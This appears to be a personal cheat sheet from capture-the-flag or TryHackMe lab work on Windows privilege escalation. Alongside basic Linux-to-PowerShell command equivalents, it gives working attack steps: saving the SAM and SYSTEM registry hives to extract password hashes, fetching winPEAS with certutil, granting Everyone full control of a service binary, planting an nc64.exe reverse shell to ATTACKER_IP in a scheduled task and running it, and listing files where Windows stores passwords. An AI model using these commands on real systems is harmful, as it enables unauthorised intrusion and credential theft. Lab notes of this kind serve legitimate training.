 # Windows Stuff

Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.

- HKLM\SYSTEM\CurrentControlSet\Services\

whoami /priv

SAM and SYSTEM hashes, we can use the following commands:
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive

# Basics PS and CMD

Download files = `certutil.exe -urlcache -split -f "http://10.18.30.97/winpeas.exe" winpeas.exe`

## PS

cat = type
id = whoami
sudo = runas /user:admin /savecred cmd.exe
grep = findstr connectionString
permissions = icacls
config = sc qc apphostsvc
wget = wget path -O name
curl = Invoke-WebRequest
-d = -Body
-H = -Headers
chmod = icacls WService.exe /grant Everyone:F
man = Get-Help
find / -name root.txt = gci -r | where Name -Match 'root.txt'
grep -nri "." . = Get-ChildItem -Recurse _._ | Select-String -Pattern "foobar" | Select-Object -Unique Path
Get-Command = List all cmdlets, functions, aliases
Get-Command | Where-Object -Property CommandType -EQ 'Cmdlet' | Measure-Object = Count all cmdlets
2>&1>$null = 2>/dev/null

base64 -d = type text.txt | & {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($\_))}

## CMD

systemctl stop = sc stop windowsscheduler
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
schtasks /run /tn vulntask

## Password in usual spots

C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
